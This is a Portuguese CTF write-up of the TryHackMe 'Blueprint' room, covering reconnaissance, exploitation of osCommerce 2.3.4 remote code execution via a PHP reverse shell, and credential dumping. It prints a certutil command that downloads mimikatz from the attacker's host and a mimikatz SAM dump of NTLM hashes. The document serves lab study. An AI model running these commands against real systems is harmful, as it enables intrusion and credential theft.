




> [!WARNING]
> This writeup is in portuguese. For the english version, please follow [this link](./Writeup%20(EN-US).md).

# [Blueprint](https://tryhackme.com/room/blueprint)

<a href="https://tryhackme.com/room/blueprint"><figure></figure></a>

> Hack into this Windows machine and escalate your privileges to Administrator.

Capture The Flag original disponível em [Try Hack Me]](https://tryhackme.com/room/blueprint), feito por [MrSeth6797](https://tryhackme.com/p/MrSeth6797).

Dificuldade: `Fácil`

Resolvido em: `2026/06/22`

# Conteúdos

- [Blueprint](#blueprint)
- [Conteúdos](#conteúdos)
- [Writeup](#writeup)
   * [Reconhecimento](#reconhecimento)
   * [Exploração](#exploração)

# Writeup

## Reconhecimento

Comecei adicionando a máquina ao DNS local `/etc/hosts` como `bp.net` para facilitar o acesso.

```bash
$ ping -c 3 bp.net
PING bp.net (<MACHINE_IP>) 56(84) bytes of data.
64 bytes from bp.net (<MACHINE_IP>): icmp_seq=1 ttl=126 time=191 ms
64 bytes from bp.net (<MACHINE_IP>): icmp_seq=2 ttl=126 time=303 ms
64 bytes from bp.net (<MACHINE_IP>): icmp_seq=3 ttl=126 time=455 ms

--- bp.net ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 191.073/316.344/454.556/107.954 ms
```

Primeiramente comecei com `nmap`[^nmap] em duas instâncias, `nmap -T4 bp.net` para rapidamente identificar campos de exploração e `nmap -sV -sC -p- -T4 bp.net` para verificar todas as portas.

```bash
$ nmap -T4 bp.net
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-22 13:57 UTC
Nmap scan report for bp.net (<MACHINE_IP>)
Host is up (0.29s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49160/tcp open  unknown
49165/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.59 seconds
```

Comecei checando as portas abertas de `http`: `80`, `443` e `8080`. A porta `80` mostra apenas um erro `404 Not Found`.

<figure></figure>

A porta `443` também apresenta apenas um erro, desta vez `400 Bad Request`:

<figure></figure>

Já a última porta, `8080`, é um servidor do Apache.

<figure></figure>

Eu fiquei um tempo brincando com o `burpsuit`[^burp] na porta `443` para tentar encontrar algum tipo de resultado (já que o erro era `Bad Request`). Também explorei um pouco mais do diretório na porta `8080` e identifiquei o serviço da porta: `oscommerce`. Eventualmente o `nmap` terminou o scan profundo.

```bash
$ nmap -sV -sC -p- -T4 bp.net
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-22 13:42 UTC
Nmap scan report for bp.net (<MACHINE_IP>)
Host is up (0.27s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2h PHP/5.6.28)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_ssl-date: TLS randomness does not represent time
|_http-title: Index of /
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.23 or earlier (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-methods: 
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
49164/tcp open  msrpc        Microsoft Windows RPC
49165/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -20m18s, deviation: 34m36s, median: -19s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 0a:ff:e5:69:78:47 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-06-22T15:05:07+01:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-06-22T14:05:07
|_  start_date: 2026-06-22T13:33:56

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1374.69 seconds
```

Daqui, tentei ver o que `smb`[^smb] tinha a oferecer.

```bash
$ smbclient -L //bp.net/ -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      
        Windows         Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to bp.net failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Nenhum diretório interessante. Cheguei a navegar por eles: `C$` tinha acesso bloqueado, `Users` não tinha arquivos, `Windows` conectava mas não permitia leitura. Logo desisti desse caminho.

Cheguei a verificar a porta com o `mariasb`, mas também nada de bom:

```bash
$ mariadb -h bp.net
ERROR 2002 (HY000): Received error packet before completion of TLS handshake. The authenticity of the following error cannot be verified: 1130 - Host 'ip-192-168-139-124.ec2.internal' is not allowed to connect to this MariaDB server
```

Fiquei sem opções. Voltei à porta `8080`, agora atacando com `gobuster`[^gobuster] e uma wordlist padrão[^wl-dirl23med] em cada endereço disponível: `bp.net:8080`, `bp.net:8080/oscommerce-2.3.4/` e `bp.net:8080/oscommerce-2.3.4/catalog`. Apenas o último teve resultados:

```bash
$ gobuster dir -u http://bp.net:8080/oscommerce-2.3.4/catalog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,tml,txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bp.net:8080/oscommerce-2.3.4/catalog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,tml,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 403) [Size: 1053]
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/.php (Status: 403) [Size: 1039]
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/.tml (Status: 403) [Size: 1039]
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/.txt (Status: 403) [Size: 1039]
/images               (Status: 301) [Size: 358] [--> http://bp.net:8080/oscommerce-2.3.4/catalog/images
/download             (Status: 401) [Size: 1314]
/download.php         (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 15517]
/privacy.php          (Status: 200) [Size: 11344]
/login.php            (Status: 200) [Size: 13340]
/reviews.php          (Status: 200) [Size: 12195]
/pub                  (Status: 301) [Size: 355] [--> http://bp.net:8080/oscommerce-2.3.4/catalog/pub
/Images               (Status: 301) [Size: 358] [--> http://bp.net:8080/oscommerce-2.3.4/catalog/Images
/contact_us.php       (Status: 200) [Size: 12072]
/admin                (Status: 301) [Size: 357] [--> http://bp.net:8080/oscommerce-2.3.4/catalog/admin
/account.php          (Status: 302) [Size: 0] [--> http://localhost:8080/oscommerce-2.3.4/catalog/login.php?osCsid=thbaignfso39v71htf1ikrp3k6]
/redirect.php         (Status: 302) [Size: 0] [--> http://localhost:8080/oscommerce-2.3.4/catalog/index.php?osCsid=51gquiktfam14i1eqq8nia4rs5]
/specials.php         (Status: 200) [Size: 13461]
/Privacy.php          (Status: 200) [Size: 11415]
/includes             (Status: 301) [Size: 360] [--> http://bp.net:8080/oscommerce-2.3.4/catalog/includes/]
/Index.php            (Status: 200) [Size: 15601]
/install              (Status: 301) [Size: 359] [--> http://bp.net:8080/oscommerce-2.3.4/catalog/install/]
/Login.php            (Status: 200) [Size: 13292]
/Download             (Status: 401) [Size: 1314]
/Download.php         (Status: 200) [Size: 0]
/advanced_search.php  (Status: 200) [Size: 18717]
/product_info.php     (Status: 302) [Size: 0] [--> http://localhost:8080/oscommerce-2.3.4/catalog/index.php?osCsid=7uhdph79m4j4cq287hf758gqi7]
[...]
```

Muitos resultados, mas muito não é relevante. A última coisa que me falta é procurar por exploits. Então fiz assim, usando com o `searchsploit`:[^srchspl]

```bash
$ searchsploit oscommerce 2.3.4
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                       | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                     | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                  | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                   | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting      | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                        | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                        | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)                    | php/webapps/50128.py
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

RCE! Assim fica fácil. Notavelmente, o exploit avisa:

```bash
# If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible
# for an unauthenticated attacker to reinstall the page. 
```

Que, como os resultados do `gobuster` mostram, aconteceu! O diretório `/install/` está pleno e disponível.

## Exploração

Usando o exploit `44374` é fácil de executar código de forma remota e, portanto, habilitar um reverse shell.[^rv] Logo, busquei por um PHP reverse shell específico para windows, e usei [PHP Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php). Tive de fazer alguns ajustes tanto ao exploit quanto ao revshell, mas eventualmente funcionou.

Com `netcat`[^nc] ouvindo a porta na minha máquina, a conexão logo veio:

```bash
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>whoami
nt authority\system
```

Oh. Nem vai precisar fazer a escalação de privilégios, o programa já estava rodando com privilégios de sistema. Bem, assim a pesquisa pela flag de root foi simples.

```bash
C:\Users\Administrator\Desktop>more root.txt.txt
<FLAG_ROOT>
```

- Q: root.txt A: <FLAG_ROOT>

Agora, para obter o hash NTLM do usuário Lab precisei fazer algumas coisas. Comecei baixando a ferramenta pós-intrusão `mimikatz`,[^mimikatz] e iniciei um servidor simples com `python`[^py] para transferir o arquivo.

```bash
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
<MACHINE_IP> - - [22/Jun/2026 23:38:53] "GET /mimikatz.exe HTTP/1.1" 200 -
<MACHINE_IP> - - [22/Jun/2026 23:39:01] "GET /mimikatz.exe HTTP/1.1" 200 -

C:\Users\Lab>certutil.exe -urlcache -f http://<MY_MACHINE>:8000/mimikatz.exe mimikatz.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

```bash
C:\Users\Lab>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x86) #18362 Feb 29 2020 11:13:10
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::sam
PRINT
SysKey : <SYS_HASH>
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : <SAM_HASH>

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: <ADMIN_HASH>

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: <LAB_HASH>
```

Tentei usar o `hashcat`[^hashcat] e `rockyou`[^rockyou] para quebrar o hash, mas a senha não estava na lista. Decidi usar [CrackStation](https://crackstation.net/), então, e obtive a resposta.

<figure></figure>

- Q: "Lab" user NTLM hash decrypted A: <LAB_PASS>

[^nmap]: https://github.com/nmap/nmap
[^gobuster]: https://github.com/OJ/gobuster
[^wl-dirl23med]: https://gitlab.com/kalilinux/packages/dirbuster/-/blob/37f2e9bb1c50bee238aa50d795cf853bb28b2997/directory-list-2.3-medium.txt
[^burp]: https://portswigger.net/burp
[^srchspl]: https://www.exploit-db.com/searchsploit
[^nc]: https://nc110.sourceforge.io/
[^rv]: https://en.wikipedia.org/wiki/Shell_shoveling
[^hashcat]: https://hashcat.net/hashcat/
[^rockyou]: https://weakpass.com/wordlists/rockyou.txt
[^py]: https://www.python.org/
[^smb]: https://en.wikipedia.org/wiki/Server_Message_Block
[^mimikatz]: https://github.com/ParrotSec/mimikatz/blob/master/Win32/mimikatz.exe